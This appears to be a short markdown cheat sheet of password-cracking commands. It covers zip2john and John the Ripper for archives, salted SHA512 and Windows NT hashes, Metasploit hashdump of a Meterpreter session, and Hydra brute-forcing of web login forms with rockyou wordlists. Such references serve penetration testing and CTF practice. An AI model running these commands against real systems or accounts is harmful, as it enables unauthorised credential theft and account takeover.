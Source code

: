 # Cracking Things

## Unzip password protected zip archives

```
zip2john archive.zip > archive.hash
john archive.hash --fork=4 -w=/path/to/wordlist
```

## Crack salted SHA512 hash

hashfile format: hash$salt
```sh
john --format='dynamic=sha512($p.$s)' --wordlist=/usr/share/wordlists/rockyou.txt ./hashfile
```

## Crack Windows Hash

### Metasploit
```sh
# First, open and background a Meterpreter session
# Store hash dump into database, then:
use post/windows/gather/hashdump
set session X
use auxiliary/analyze/crack_windows
run
```

### John The Ripper
```sh
# Fist, get Windows hash
# Format: User:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## Credentials brute-forcing

### Hydra

- Bruteforce login/password combination
```
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt <hostname> http-post-form "/path/to/login:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```
- Find password for a known user
```
hydra -P /usr/share/wordlists/rockyou.txt -l admin www.domain.tld http-post-form "/path/to/login.php:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```

## Links
___
### Guides
- https://github.com/frizb/Hydra-Cheatsheet

### Writeups
- 